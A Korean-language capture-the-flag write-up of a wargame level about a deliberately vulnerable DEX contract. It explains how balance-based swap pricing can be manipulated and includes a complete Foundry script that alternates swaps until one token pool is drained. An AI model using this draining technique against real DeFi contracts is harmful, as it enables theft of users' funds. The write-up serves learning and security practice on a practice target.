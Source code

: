 # 지문

이 레벨의 목표는 기본적인 DEX 컨트랙트를 해킹하여 **가격 조작을 통해 자금을 탈취하는 것**입니다.

당신은 **token1 10개와 token2 10개**를 가지고 시작합니다. DEX 컨트랙트는 각각 **100개의 토큰**을 보유한 상태로 시작합니다.

이 레벨에서 성공하려면 두 토큰 중 적어도 하나를 전부 고갈시켜야 하며, 동시에 컨트랙트가 자산의 "잘못된(bad)" 가격을 보고하도록 만들어야 합니다.

---

### 참고 사항

보통 ERC20 토큰으로 스왑을 할 때는, 컨트랙트가 당신의 토큰을 대신 사용할 수 있도록 **approve**를 먼저 해줘야 합니다.
이 게임의 문법을 단순하게 유지하기 위해, **approve 메서드를 DEX 컨트랙트 안에 추가**해 두었습니다. 따라서 직접 토큰 컨트랙트에 approve를 호출할 필요 없이, 다음과 같이 호출할 수 있습니다:

```
contract.approve(contract.address, <uint amount>)
```

이렇게 하면 지정한 수량만큼 두 토큰의 사용 권한이 자동으로 승인됩니다.
SwappableToken 컨트랙트는 무시해도 괜찮습니다.

---

### 도움이 될 만한 것들

* 토큰의 가격은 **어떻게 계산되는가?**
* `swap` 메서드는 **어떻게 동작하는가?**
* ERC20에서 **트랜잭션을 승인(approve)** 하는 방법은?
* 컨트랙트와 상호작용하는 방법은 **여러 가지**가 있다!
* **Remix**가 도움이 될 수도 있다
* "At Address"는 무슨 의미일까?


```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

import "openzeppelin-contracts-08/token/ERC20/IERC20.sol";
import "openzeppelin-contracts-08/token/ERC20/ERC20.sol";
import "openzeppelin-contracts-08/access/Ownable.sol";

contract Dex is Ownable {
    address public token1;
    address public token2;

    constructor() {}

    function setTokens(address _token1, address _token2) public onlyOwner {
        token1 = _token1;
        token2 = _token2;
    }

    function addLiquidity(address token_address, uint256 amount) public onlyOwner {
        IERC20(token_address).transferFrom(msg.sender, address(this), amount);
    }

    function swap(address from, address to, uint256 amount) public {
        require((from == token1 && to == token2) || (from == token2 && to == token1), "Invalid tokens");
        require(IERC20(from).balanceOf(msg.sender) >= amount, "Not enough to swap");
        uint256 swapAmount = getSwapPrice(from, to, amount);
        IERC20(from).transferFrom(msg.sender, address(this), amount);
        IERC20(to).approve(address(this), swapAmount);
        IERC20(to).transferFrom(address(this), msg.sender, swapAmount);
    }

    function getSwapPrice(address from, address to, uint256 amount) public view returns (uint256) {
        return ((amount * IERC20(to).balanceOf(address(this))) / IERC20(from).balanceOf(address(this)));
    }

    function approve(address spender, uint256 amount) public {
        SwappableToken(token1).approve(msg.sender, spender, amount);
        SwappableToken(token2).approve(msg.sender, spender, amount);
    }

    function balanceOf(address token, address account) public view returns (uint256) {
        return IERC20(token).balanceOf(account);
    }
}

contract SwappableToken is ERC20 {
    address private _dex;

    constructor(address dexInstance, string memory name, string memory symbol, uint256 initialSupply)
        ERC20(name, symbol)
    {
        _mint(msg.sender, initialSupply);
        _dex = dexInstance;
    }

    function approve(address owner, address spender, uint256 amount) public {
        require(owner != _dex, "InvalidApprover");
        super._approve(owner, spender, amount);
    }
}
```

# 풀이 

문제를 보면 swap에 대해서 취약점이 발생한다.

contract는 token1을 100개, token2를 100개가 갖고있다.

player에게는 token1이 10개, token2가 10개 주어진다.

player가 token1 10개를 token2로 몽땅 바꾼다고 치자.

그럼 상황은 다음과 같을 것이다

contract token1 - 110, token2 - 90

player token1 - 0, token2 - 20

여기서 token2 20개를 token1로 모두 스왑한다고 칠 때 스왑하는 양에 대해서 계산하는 Get_swap_price에 대해서 체크해보자

get_swap_price(token2 address, token1 address, 10) 일 때 수식에 값을 대입해보면 다음과 같은 값이 반환될 것이다

(20*110)/90 = 24

그리고 그 값대로 스왑 함수를 호출하면 유저에게 토큰을 전송할것이다.

자, 이렇게되서 처음에는 교환비 1:1이었던 token1,2의 교환비가 점점 한쪽으로 쏠리게된다.

이것을 token1↔token2에서 다수 반복하면 토큰 하나를 완전히 훔칠 수 있다

```solidity
// SPDX-License-Identifier: UNLICENSED
pragma solidity ^0.8.13;

import {Script} from "forge-std/Script.sol";
import "forge-std/console.sol";

interface IERC20 {
    function balanceOf(address account) external view returns (uint256);
    function approve(address, uint256) external returns (bool);
}

interface ITarget {
    function swap(address from, address to, uint256 amount) external;
    function getSwapPrice(address from, address to, uint256 amount) external view returns (uint256);
    function approve(address spender, uint256 amount) external;

    function token1() external view returns (address);
    function token2() external view returns (address);
}

contract SolveScript is Script {
    address public target = 0xfBD745797A0fb50429f0a2b04581092798Fdf30B;
    address public player = 0x3C44CdDdB6a900fa2b585dd299e03d12FA4293BC;

    function setUp() public {}

    function run() public {
        vm.startBroadcast();

        address token1 = ITarget(target).token1();
        address token2 = ITarget(target).token2();

        // approve dex to spend our tokens
        IERC20(token1).approve(target, type(uint256).max);
        IERC20(token2).approve(target, type(uint256).max);

        console.log("=== Initial Balances ===");
        logBalances(token1, token2);

        bool toggle = true; // true = token1->token2, false = token2->token1
        uint256 amount;

        while (
            IERC20(token1).balanceOf(target) > 0 &&
            IERC20(token2).balanceOf(target) > 0
        ) {
            address from = toggle ? token1 : token2;
            address to   = toggle ? token2 : token1;

            uint256 userBal = IERC20(from).balanceOf(player);
            if (userBal == 0) break;

            uint256 dexBalTo = IERC20(to).balanceOf(target);
            uint256 outAmt = ITarget(target).getSwapPrice(from, to, userBal);

            if (outAmt > dexBalTo) {
                userBal = (userBal * dexBalTo) / outAmt;
            }

            console.log("Swapping %d %s -> %s", userBal, from, to);
            ITarget(target).swap(from, to, userBal);

            toggle = !toggle;
            logBalances(token1, token2);
        }

        console.log("=== Final Balances ===");
        logBalances(token1, token2);

        vm.stopBroadcast();
    }

    function logBalances(address token1, address token2) internal view {
        console.log("my token1 balance : %d", IERC20(token1).balanceOf(player));
        console.log("my token2 balance : %d", IERC20(token2).balanceOf(player));
        console.log("dex token1 balance : %d", IERC20(token1).balanceOf(target));
        console.log("dex token2 balance : %d", IERC20(token2).balanceOf(target));
    }
}

```